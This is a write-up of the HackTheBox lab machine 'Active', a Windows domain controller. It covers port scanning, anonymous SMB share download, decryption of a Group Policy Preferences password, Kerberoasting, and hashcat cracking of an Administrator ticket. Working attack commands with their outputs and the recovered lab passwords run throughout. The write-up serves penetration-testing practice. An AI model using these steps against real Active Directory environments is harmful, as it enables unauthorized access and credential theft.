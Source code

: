 ```yaml
---
description: >-
  Active HTB Machine
title: Active (Easy)                # Add title here
date: 2023-02-09 08:00:00 -0600                           # Change the date to match completion date
categories: [HackTheBox, Windows - Easy]                     # Change Templates to Writeup
tags: [smb enumeration, smb full replication, gpp decryption, kerberoasting, hashcat, tgs cracking]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Active.png                # Add infocard image here for post preview image
---
```

### Host entries
```bash
10.10.10.100  active.htb
```
If Active Directory => [[Synchronize NTP]] with the domain controller.

### Content

- SMB Enumeration
- SMB Full share replication to local machine [[SMB Download]] `smbclient mget*`
- GPP Decryption
- Kerberoasting
- Hashcat TGS crack

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- --open --min-rate 5000 -Pn -n -vvv -oG allPorts 10.10.10.100
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.100 ()   Status: Up
Host: 10.10.10.100 ()   Ports: 53/open/tcp//domain///, 88/open/tcp//kerberos-sec///, 135/open/tcp//msrpc///, 139/open/tcp//netbios-ssn///, 389/open/tcp//ldap///, 445/open/tcp//microsoft-ds///, 464/open/tcp//kpasswd5///, 593/open/tcp//http-rpc-epmap///, 636/open/tcp//ldapssl///, 3268/open/tcp//globalcatLDAP///, 3269/open/tcp//globalcatLDAPssl///, 9389/open/tcp//adws///, 47001/open/tcp//winrm///, 49152/open/tcp//unknown///, 49153/open/tcp//unknown///, 49154/open/tcp//unknown///, 49155/open/tcp//unknown///, 49157/open/tcp//unknown///, 49158/open/tcp//unknown///, 49165/open/tcp//unknown///, 49166/open/tcp//unknown///, 49168/open/tcp//unknown///
```
Services and Versions running:
```bash
nmap -p53,88,135,139,389,445,464,593,636,3268,3269,9389,47001,49152,49153,49154,49155,49157,49158,49165,49166,49168 -sCV -Pn -n -vvv -oN targeted 10.10.10.100
Nmap scan report for 10.10.10.100
Host is up, received user-set (0.089s latency).
Scanned at 2023-02-09 00:37:51 EST for 73s

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2023-02-09 05:37:58Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc         syn-ack Microsoft Windows RPC
49153/tcp open  msrpc         syn-ack Microsoft Windows RPC
49154/tcp open  msrpc         syn-ack Microsoft Windows RPC
49155/tcp open  msrpc         syn-ack Microsoft Windows RPC
49157/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         syn-ack Microsoft Windows RPC
49165/tcp open  msrpc         syn-ack Microsoft Windows RPC
49166/tcp open  msrpc         syn-ack Microsoft Windows RPC
49168/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   210: 
|_    Message signing enabled and required
|_clock-skew: 0s
| smb2-time: 
|   date: 2023-02-09T05:38:55
|_  start_date: 2023-02-09T05:22:50
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 38577/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 40109/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 51069/udp): CLEAN (Timeout)
|   Check 4 (port 38631/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
```
Enumerating port 445 we identify that we have Read access to the Replication share:
```bash
crackmapexec smb 10.10.10.100 -u '' -p '' --shares
SMB 10.10.10.100 445 DC [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB 10.10.10.100 445 DC [+] active.htb\: 
SMB 10.10.10.100 445 DC [+] Enumerated shares
SMB 10.10.10.100 445 DC Share   Permissions  Remark
SMB 10.10.10.100 445 DC -----   -----------  ------
SMB 10.10.10.100 445 DC ADMIN$ Remote Admin
SMB 10.10.10.100 445 DC C$  Default share
SMB 10.10.10.100 445 DC IPC$Remote IPC
SMB 10.10.10.100 445 DC NETLOGON  Logon server share 
SMB 10.10.10.100 445 DC Replication  READ 
SMB 10.10.10.100 445 DC SYSVOL Logon server share
SMB 10.10.10.100 445 DC Users
```
We then enumerate the share, it has a lot of information within so we rather prefer to download the whole volume locally[^smb-download]: 
```bash
# First connect to the machine
smbclient //10.10.10.100/Replication -N
# Then turn off the Prompt and turn on the replicate function
smb: \> RECURSE ON
smb: \> PROMPT OFF
# Finally extract all the files
smb: \> mget *
```
We then check what info is within the share:
![Description](/assets/img/Pasted image 20230209005650.png)
### Exploitation
This structure is very similar to the SYSVOL share so we know that there is a Groups.xml, this file can have a GPP hash that can be decrypted[^sysvol-gpp-decrypt]: 
```bash
cat ./active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```
And we can decrypt the cpassword with gpp-decrypt utility:
```bash
# Decrypting cpassword
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18
```

### Privilege Escalation
Now, since we know that there is no port tcp-5985 to login directly open we can keep the enumeration on port tcp-445, the next share interesting is not SYSVOL but Users and this is its structure:
![Description](/assets/img/Pasted image 20230209010606.png)
After a deep enumeration, we couldn't identify any useful file that could provide a privesc or a lateral movement so we tried another approach which is a [[Kerberoasting (Service Account Attacks)]]. ^659f81
```bash
impacket-GetUserSPNs active.htb/svc_tgs:GPPstillStandingStrong2k18 -request
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2023-02-09 00:24:03.458965             



[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$
...
d03f8fe0c361c57c9c755c7d8a1024dd38c4beaf73a3688eb2c103450979c4e729c0b6d21a44160b71cc6             
```
This means that we can extract a TGS ticket directly from the DC, and we successfully get it, so next thing to do is to crack it with [Hashcat](https://shuciran.github.io/posts/Hashcat/):
```bash
D:\Programas\hashcat-6.2.5>hashcat.exe -m 13100 -a 0 hash.txt rockyou.txt
hashcat (v6.2.5) starting


$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$
...
f0cc1679087568696baa79fef670721b$0bd9f0addc75c15876fda2aae6fc4a9611250979c4e729c0b6d21a44160b71cc6:Ticketmaster1968
```
### Credentials
```bash
svc_tgs:GPPstillStandingStrong2k18
Administrator:Ticketmaster1968
```

### Notes

- We can extract a share with SMB directly by abusing of the [[SMB Download]] with SMBClient `mget *` functionality.

### References
[^smb-download]: Download an entire SMB share locally.
[^sysvol-gpp-decrypt]: SYSVOL (Groups.xml) gpp decrypt.

